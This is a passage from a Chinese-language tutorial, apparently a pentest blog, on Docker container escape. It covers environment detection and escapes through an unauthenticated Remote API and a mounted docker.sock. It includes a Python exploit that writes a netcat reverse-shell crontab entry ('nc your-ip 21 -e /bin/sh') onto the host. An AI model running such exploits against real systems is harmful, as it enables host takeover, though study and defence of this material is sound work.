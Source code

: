 首先，我们需要先判断是否在 Docker 环境里，常用的两个检测方式：

-   检查 `/.dockerenv` 文件是否存在
-   检查 `/proc/1/cgroup` 内是否包含 Docker 等字符串。

目前来说，这两种检测方式还是比较有效的，其他检测方式，如检测 mount、fdisk -l 查看硬盘、判断 PID 1 的进程名等也可用来辅助判断。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203150518.png-water_print](assets/1699410763-58cfd074f3d3a5e86053741add72d667.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203150518.png-water_print")

## [](#3-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%BC%95%E5%8F%91-docker-%E9%80%83%E9%80%B8)3 配置不当引发 Docker 逃逸

### [](#31-docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)3.1 Docker Remote API 未授权访问

漏洞简述：Docker Remote API 可以执行 Docker 命令，Docker 守护进程监听在 0.0.0.0，可直接调用 API 来操作 Docker。

利用方法是，我们随意启动一个容器，并将宿主机的 `/etc` 目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入 crontab 配置文件，进行反弹 shell。

EXP：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```python<br>import docker<br><br>client = docker.DockerClient(base_url='http://your-ip:2375/')<br>data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontab" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})<br>``` |

### [](#32-dockersock-%E6%8C%82%E8%BD%BD%E5%88%B0%E5%AE%B9%E5%99%A8%E5%86%85%E9%83%A8)3.2 docker.sock 挂载到容器内部

场景描述：简单来说就是 docker in docker，在 docker 容器中调用和执行宿主机的 docker，将 docker 宿主机的 docker 文件和 docker.sock 文件挂载到容器中，具体为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>docker run --rm -it \<br>  -v /var/run/docker.sock:/var/run/docker.sock \<br>  -v /usr/bin/docker:/usr/bin/docker \<br>  ubuntu \<br>  /bin/bash<br>``` |

漏洞复现：

1.  在容器中找到 docker.sock

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>root@95a280bc5a19:/# find / -name docker.sock<br>/run/docker.sock<br>``` |
